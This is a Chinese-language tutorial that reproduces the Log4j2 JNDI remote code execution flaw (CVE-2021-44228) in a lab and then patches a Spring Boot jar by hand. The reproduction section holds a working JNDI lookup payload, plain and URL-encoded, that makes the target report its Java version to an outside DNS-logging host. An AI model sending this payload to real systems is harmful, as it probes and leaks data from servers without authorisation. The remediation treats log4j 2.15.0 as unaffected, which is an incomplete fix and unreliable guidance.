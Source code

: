 # Apache Log4j2-RCE漏洞修复步骤（CVE-2021-44228）

`@Time   : 2022/8/24 13:41`
`@Author : 852782749@qq.com`

```
开始编辑～
```
## 文章共分为漏洞复现、漏洞修复

### 漏洞复现
#### 部署log4j2环境，复现漏洞
```angular2html
这里使用vulfocus的log4j2 rce的docker环境中用到的环境包
java -jar c:\Apache_Log4j2\log4j2.jar --server.port=8081

可以自行下载或匹配自己对应业务系统的log4j*.jar包
```
> 启动后访问目标地址
![avatar](images/apache_06.png)

>打开`dnslog.cn`,开始监听
![avatar](images/apache_07.png)
#### 构造payload
> 构造payload `${jndi:ldap://${sys:java.version}.d82hcy.dnslog.cn}`;
>
> 将payload 进行url编码 `%24%7Bjndi%3Aldap%3A%2F%2F%24%7Bsys%3Ajava.version%7D.d82hcy.dnslog.cn%7D`

#### 攻击复现
> 使用浏览器发起访问`host+prot/hello?payload=%24%7Bjndi%3Aldap%3A%2F%2F%24%7Bsys%3Ajava.version%7D.d82hcy.dnslog.cn%7D`
> 
> 启动引擎日志记录了对dnslog发起的访问
![avatar](images/apache_08.png)
>
> 
> 切换到dnslog页面进行查看，部分需要单击`Refresh Record`获取下请求信息
> 
> 如果能够检测到与下面类似的信息，说明复现成功。
![avatar](images/apache_09.png)
> 

### 漏洞修复
#### 下载不受影响的log4j版本`https://archive.apache.org/dist/logging/log4j/2.15.0/apache-log4j-2.15.0-bin.zip`

#### jar命令
```angular2html
Soring boot 项目jar包解压之后 修改文件之后 在不依靠开发工具的情况下重新压缩jar包 打包命令如下：
jar -cvf0M log4jup.jar BOOT-INF/ META-INF/ org/
压缩
jar -cvf xxx.jar
解压
jar -xvf xxx.jar
更新
jar -uvf xxx.jar BOOT-INF/classes/application-dev.yml
列出jar包内容
jar -tvf xxx.jar
```
#### 使用jar解压命令，将log4.jar解压
![avatar](images/apache_10.png)
![avatar](images/apache_11.png)
#### 漏洞修复步骤
> 查询引用了哪些`log4j*.jar`，在路径`\BOOT-INF\lib\`下找到两个log4j的包
![avatar](images/apache_12.png)
> 使用新版的jar包将其替换
![avatar](images/apache_13.png)
> 替换成新版本之后，找到引用的`pom.xml`文件，在路径`\META-INF\maven\com.example\log4j2_rce\`下，
![avatar](images/apache_14.png)
> 将log4j的version修改为新的版本号，如这里是2.15.0
![avatar](images/apache_15.png)
```angular2html
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-api</artifactId>
    <version>2.15.0</version>
</dependency>
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.15.0</version>
</dependency>
```
> 使用`jar -cvf0M log4jup.jar BOOT-INF/ META-INF/ org/`命令重新压缩成新的jar包，如log4jup.jar
![avatar](images/apache_16.png)
![avatar](images/apache_17.png)
> 此时已完成修复，可以再次重复漏洞复现步骤进行验证，dnslog已经获取不到信息
![avatar](images/apache_18.png)
> 
## 思考

> 乾坤未定，你我皆是黑马